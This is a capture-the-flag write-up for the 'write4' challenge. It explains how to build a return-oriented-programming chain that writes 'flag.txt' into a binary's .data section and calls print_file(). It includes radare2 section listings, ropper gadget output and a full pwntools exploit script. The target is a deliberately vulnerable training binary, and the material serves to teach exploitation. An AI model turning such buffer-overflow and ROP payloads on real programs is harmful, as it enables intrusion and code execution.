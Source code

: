 # Write4
In this challenge, we are given a function to open arbitrary files (`print_file()`), with the goal of opening `flag.txt`. 
The difficult part is that the string `flag.txt` is nowhere to be found in the binary. 
We must thus use ROP to write the string to memory ourselves.

To solve this challenge, we must complete the following steps:
- Identify a memory location where we can write our string to.
- Write `flag.txt`.
- Put the pointer to our string in `rdi`.
- Call `print_file()`.

## Identifying suitable memory
Before we can write our string to memory, we must first identify some memory that we can write to without breaking anything. We can use radare2 to get a view of the memory sections:
```
$ r2 write4 
[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- STRTAB      .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- RELA        .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- RELA        .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x PROGBITS    .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x PROGBITS    .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- PROGBITS    .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- STRTAB      .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```
Here we need to pick a segment with `rw`. Let's pick `.data` at  `0x601028` (`.got` and `.got.plt` could technically work, but is not as good of a choice as we might overwrite crucial memory. `.bss` could also be fine but only has room for 8 characters, so a null terminator won't fit after our string).

## Write to memory
Next we will go looking for a gadget that allows for writing to memory such as `mov [reg], reg`. This binary has two of such gadgets:
```
$ ropper -f write4 | grep mov

...
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
...
0x0000000000400628: mov qword ptr [r14], r15; ret; 
...
```
Both of these gadgets could be used for this challenge. We will use the one at `0x400629`, but the other one would have arguably been better as it allows for writing 64 bits instead of 32.
With this gadget, we can write to a pointer in `rsi` with the contents of `rdi/edi`. We will thus also need gadgets to fill `rsi` and `rdi/edi`.
Using ropper we can again find gadgets for those as well:
```
0x0000000000400691: pop rsi; pop r15; ret;
0x0000000000400693: pop rdi; ret;
```
Note that our gadget for `rsi` also pops to `r15`. This means we will also need to provide some garbage value that will go into `r15`.
We can now write a function to write 4 bytes to a writable address using these gadgets as follows:
```
def write4bytes(writable_address, bytestr):
    pop_rsi_r15_gadget = 0x400691
    pop_rdi_gadget = 0x400693
    write_mov_gadget = 0x400629

    payload  = p64(pop_rsi_r15_gadget) # Load destination address into rsi
    payload += p64(writable_address)   # Pops write destination into rsi
    payload += p64(0x4141414141414141) # Garbage value for r15
    payload += p64(pop_rdi_gadget)     # Load 4 byte string into edi/rdi
    payload += p64(u32(bytestr))       # The 4 bytes to write
    payload += p64(write_mov_gadget)   # Trigger write
    return payload
```
We can use this function to write `flag.txt` to our writable address as follows (note that it also seem to work without supplying the null bytes, likely because the segment is null initialised):
```
writable_address = 0x601028 # in .data segment

# Stage 1, write "flag.txt" to writable_address
payload += write4bytes(writable_address  , b"flag")
payload += write4bytes(writable_address+4, b".txt")
payload += write4bytes(writable_address+8, b"\x00\x00\x00\x00") # Seems unnecessary for working exploit
```

## Write the memory address to `rdi`
To put the address of our written string into `rdi`, we can reuse the same gadget from before.
```
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
```

## Call `print_file()`
As the final step of our exploit, we simply need to call `print_file()`. We can do this by reusing the PLT trampoline trick from the previous challenge; taking the jump in the PLT to the function:
```
print_file_plt = 0x400510
payload += p64(print_file_plt)
```
The script for the complete exploit is thus as follows:

```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./write4"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Writes a dword. Alternatively, a gadget to write a qword can be used.
def write4bytes(writable_address, bytestr):
    pop_rsi_r15_gadget = 0x400691
    pop_rdi_gadget = 0x400693
    write_mov_gadget = 0x400629

    payload  = p64(pop_rsi_r15_gadget) # Load destination address into rsi
    payload += p64(writable_address)   # Pops write destination into rsi
    payload += p64(0x4141414141414141) # Garbage value for r15
    payload += p64(pop_rdi_gadget)     # Load 4 byte string into edi/rdi
    payload += p64(u32(bytestr))       # The 4 bytes to write
    payload += p64(write_mov_gadget)   # Trigger write
    return payload

io = start()

writable_address = 0x601028 # in .data segment
pop_rdi_gadget   = 0x400693
print_file_plt   = 0x400510

payload = b"A" * 40

# Stage 1, write "flag.txt" to writable_address
payload += write4bytes(writable_address  , b"flag")
payload += write4bytes(writable_address+4, b".txt")
payload += write4bytes(writable_address+8, b"\x00\x00\x00\x00") # Seems unnecessary for working exploit

# Stage 2, put writable_address in rdi and call print_file()
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)


io.sendlineafter(b">", payload)
io.interactive()
```
